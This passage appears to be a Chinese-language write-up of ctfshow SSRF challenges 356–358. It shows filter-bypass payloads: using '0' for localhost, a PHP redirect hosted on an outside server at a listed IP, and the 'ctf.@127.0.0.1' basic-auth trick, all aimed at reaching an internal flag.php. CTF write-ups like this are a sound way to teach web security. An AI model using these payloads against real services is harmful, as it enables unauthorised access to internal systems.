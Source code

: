 限制长度

![image-20240511134347839](D:\Infiltration\笔记\note\图片\image-20240511134347839.png)

###### 0=127.0.0.1

```
url=http://0/flag.php
```

![image-20240511134421246](D:\Infiltration\笔记\note\图片\image-20240511134421246.png)

##### ctfshow-357

过滤解析后的ip等

![image-20240511135157338](D:\Infiltration\笔记\note\图片\image-20240511135157338.png)

###### 重定向解析绕过

```
<?php
header("Location:http://127.0.0.1/flag.php"); 
```

###### ubuntu临时开启php服务器

```
apt install php
php -S 0.0.0.0:5566
killall php
```

![image-20240511141808036](D:\Infiltration\笔记\note\图片\image-20240511141808036.png)

```
url=http://89.116.173.117:5566/http/poc.php
```

![image-20240511141620870](D:\Infiltration\笔记\note\图片\image-20240511141620870.png)

##### ctfshow-358

url需要以http://ctf开头,以show结尾，才能触发file_get_contents()

![image-20240511142048778](D:\Infiltration\笔记\note\图片\image-20240511142048778.png)

###### http基本身份认证方式绕过@

此处`ctf.`将作为账号登录127.0.0.1，并且向flag.php传一个`show`参数来绕过

```
url=http://ctf.@127.0.0.1/flag.php#show
```

![image-20240511143130792](D:\Infiltration\笔记\note\图片\image-20240511143130792.png)
